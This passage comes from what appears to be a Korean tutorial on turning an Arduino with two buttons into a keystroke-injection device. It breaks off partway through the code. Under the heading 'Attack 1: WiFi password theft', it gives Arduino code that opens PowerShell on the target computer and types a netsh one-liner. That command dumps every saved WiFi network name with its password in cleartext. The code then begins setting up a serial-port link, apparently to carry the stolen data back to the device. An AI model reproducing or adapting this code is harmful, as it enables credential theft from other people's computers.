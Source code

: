 회로 기판(왼쪽) 다이어그램에서 버튼이 각각 핀 2와 핀 3에 연결되어 있음을 알았습니다. 따라서 스케치(오른쪽)에서 pinMode(2, INPUT); 및 pinMode(3, INPUT);를 각각 입력 구성 요소로 정의했습니다. loop 함수는 우리 함수의 실행을 정의한 곳입니다.

# 공격 1: WiFi 비밀번호 도용

<div class="content-ad"></div>

컴퓨터가 WiFi에 연결될 때마다 WiFi 비밀번호가 시스템에 저장됩니다. 이 좋은 소식은 PowerShell 명령을 활용하여 WiFi 서비스 세트 식별자(SSID)와 비밀번호 목록을 얻을 수 있다는 것입니다.

```js
#include <Keyboard.h>
#include <EEPROM.h>
char stringArray[500] = {""};
boolean extracted = false, dispatched = false;
int extractButton = 2, dispatchButton = 3;

void setup() {
    Serial.begin(9600);
    pinMode(extractButton, INPUT);
    pinMode(dispatchButton, INPUT);
    Keyboard.begin();
}
void loop() {
    if(digitalRead(extractButton) == HIGH && !extracted) {
        extractingData();
        extracted = true;
    }
    if(digitalRead(dispatchButton) == HIGH && !dispatched) {
        dispatchingData();
        dispatched = true;
    }
    if(digitalRead(extractButton) == LOW)
        extracted = false;
    if(digitalRead(dispatchButton) == LOW)
        dispatched = false;
}

void extractingData() {
    delay(1000);
    Keyboard.press(KEY_LEFT_GUI);
    delay(20);
    Keyboard.release(KEY_LEFT_GUI);
    delay(500);
    Keyboard.print("Powershell");
    delay(500);
    Keyboard.press(KEY_RETURN);
    delay(200);
    Keyboard.release(KEY_RETURN);
    delay(1000);
    Keyboard.println("(netsh wlan show profiles) | Select-String \"\\:(.+)$\" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name=\"$name\" key=clear)}  | Select-String \"Key Content\\W+\\:(.+)$\" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass } | Format-Table -AutoSize | Out-String -OutVariable dataCaptured");
    delay(500);

    Keyboard.println("$comPort = ((Get-WmiObject -query \"SELECT * FROM Win32_PnPEntity\" | Where {$_.Name -Match \"COM\\d+\"}).name).Split(\"COM\")");
    delay(200);
    Keyboard.println("$comPort = [int]$comPort[$comPort.length - 1].replace(\")\", \"\")");
    delay(200);
    Keyboard.print("$serialObject = new-Object System.IO.Ports.SerialPort COM");
    Keyboard.print("$comPort");
```
